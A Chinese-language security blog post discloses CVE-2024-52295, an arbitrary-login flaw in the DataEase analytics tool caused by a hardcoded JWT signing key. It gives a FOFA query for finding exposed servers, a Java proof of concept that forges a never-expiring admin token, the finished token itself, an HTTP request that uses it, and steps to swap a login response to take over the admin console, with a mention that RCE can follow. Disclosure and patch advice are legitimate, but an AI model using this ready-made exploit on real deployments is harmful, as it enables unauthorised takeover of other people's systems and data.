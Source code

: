 #  DataEase 严重级别任意登录漏洞 POC 已公开   
原创 一个不正经的黑客  一个不正经的黑客   2025-01-05 02:04  
  
# DataEase 严重级别任意登录漏洞 POC 已公开  
## 1.DataEase 简介   
  
DataEase 是一个开源的数据可视化分析工具  
  
项目地址：https://github.com/dataease/dataease  
  
目前 Github 平台已经高达 18.7K Star , 互联网也存在诸多应用，请及时自查升级最新版本。  
## 2.漏洞描述   
  
DataEase 是一个开源的数据可视化分析工具。用于帮助用户快速分析数据并洞察业务趋势，从而实现业务的改进与优化。  
  
DataEase <= 2.10.1 之前版本存在安全漏洞，但最新版 2.10.3 已经修复此漏洞，请及时升级。  
  
CVE 编号： CVE-2024-52295  
  
漏洞级别：严重  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3baK5Kz6O5SQvVLHNPY3u58Q9cdTwQ1BOolcMz05EO7GUZOm2xOsCyemTLoibDgLvWfp1WRQbz5QeA/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
## 3.FOFA 查询语句   
  
body="Dataease"  
  
![](https://mmbiz.qpic.cn/mmbiz_png/cxf9lzscpMrSzBMiaqZsqK1444PxWznRS61iaaDDL2l5KmuevMiceOoiazsO8sJHhTXVgGDLyAm5USjC1SVUmhcwGg/640?wx_fmt=png&from=appmsg "")  
## 4.漏洞分析   
  
**代码分析：**  
  
io.dataease.substitute.permissions.login.SubstituleLoginServer  
```
public class SubstituleLoginServer {    @PostMapping("/login/localLogin")    public TokenVO localLogin(PwdLoginDTO dto) {        TokenUserBO tokenUserBO = new TokenUserBO();        tokenUserBO.setUserId(1L);        tokenUserBO.setDefaultOid(1L);        String md5Pwd = "83d923c9f1d8fcaa46cae0ed2aaa81b5";        return generate(tokenUserBO, md5Pwd);    }    @GetMapping("/logout")    public void logout() {        LogUtil.info("substitule logout");    }    private TokenVO generate(TokenUserBO bo, String secret) {        Algorithm algorithm = Algorithm.HMAC256(secret);        Long userId = bo.getUserId();        Long defaultOid = bo.getDefaultOid();        JWTCreator.Builder builder = JWT.create();        builder.withClaim("uid", userId).withClaim("oid", defaultOid);        String token = builder.sign(algorithm);        returnnew TokenVO(token, 0L);    }}
```  
  
在这段代码中，JWT 密钥被硬编码在代码中，UID 和 OID 也被硬编码。这意味着攻击者可以伪造 JWT 并接管服务。  
  
**漏洞证明概述 (POC)：**  
```
package io.dataease;import com.auth0.jwt.JWT;import com.auth0.jwt.JWTCreator;import com.auth0.jwt.algorithms.Algorithm;import io.dataease.api.permissions.login.api.LoginApi;import io.dataease.auth.vo.TokenVO;public class jwt {    public static void main(String[] args) {        // 设置密钥        String secret = "83d923c9f1d8fcaa46cae0ed2aaa81b5";        Algorithm algorithm = Algorithm.HMAC256(secret);        // 设置用户ID和默认OID        Long userId = 1L;        Long defaultOid = 1L;        // 创建 JWT 构建器并添加声明        JWTCreator.Builder builder = JWT.create();        // 修改过时时间为无限长        builder.withClaim("uid", 1).withClaim("oid", 1).withClaim("exp", 99999999999L);        // 生成 JWT        String token = builder.sign(algorithm);        // 输出生成的 JWT        System.out.println("X-DE-TOKEN: " + token);    }}
```  
## 5.漏洞复现   
  
使用上面代码生成的  
X-DE-TOKEN  
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1aWQiOjEsIm9pZCI6MSwiZXhwIjo5OTk5OTk5OTk5OX0.okytUClKBAHbww_C3ZZTINTUtbQSSE9ILJwhbIBr_cY
```  
  
合法token后，可以通过指定：X-De-Token 从而实现在未授权状态下访问所有端点。  
```
GET /de2api/engine/getEngine HTTP/1.1Host: localhostX-De-Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1aWQiOjEsIm9pZCI6MSwiZXhwIjo5OTk5OTk5OTk5OX0.okytUClKBAHbww_C3ZZTINTUtbQSSE9ILJwhbIBr_cYAccept-Encoding: gzip, deflate, brConnection: keep-alive
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/cxf9lzscpMrSzBMiaqZsqK1444PxWznRSzdUktEljgnxMoAGdY3Ot6Khk1aAQrbuyMnMv2T3f3pE00cMpIGTiaDw/640?wx_fmt=png&from=appmsg "")  
  
如果在登录页面，输入错误账号密码，修改响应包的返回为此 Token，可以实现接管后台，任意调用功能，利用各种反序列化和后台功能可以实现 RCE，危害严重，请及时修复！  
  
如：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/cxf9lzscpMrSzBMiaqZsqK1444PxWznRSUqm0w82Ou8a6MHG7Skud5gEPCEHecNNO24dsVFywicB2eRVkNnHcxAw/640?wx_fmt=png&from=appmsg "")  
  
修改返回值为上面那个不会过时的 Token，之后便可以登录到系统了。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/cxf9lzscpMrSzBMiaqZsqK1444PxWznRSAl0wLLeFcpQibO3Xsibeic3Yt05wRMJRdEZXSHp2tTOKuuaDrBEUAKk7w/640?wx_fmt=png&from=appmsg "")  
## 6.文末寄语   
  
JWT 固定密钥漏洞是一个较为常见的问题，流行发生在 Golang 和 java 的项目中，大家在进行漏洞挖掘的时候可以额外注意！  
  
此外，本次漏洞点发生在登录功能很明显的特征点上，只要细心一点，我相信一个过万 Star 项目的 0day 离你不远！  
  
关注+一个不正经的黑客公众号，洞察业界动态，揽安全美人入怀，杯酒觥筹间，让知识掉入大脑陷阱，把0day 装进你的口袋，也许距离走上人生巅峰，你也就差的只是一个小关小注，交个朋友，干杯！  
  
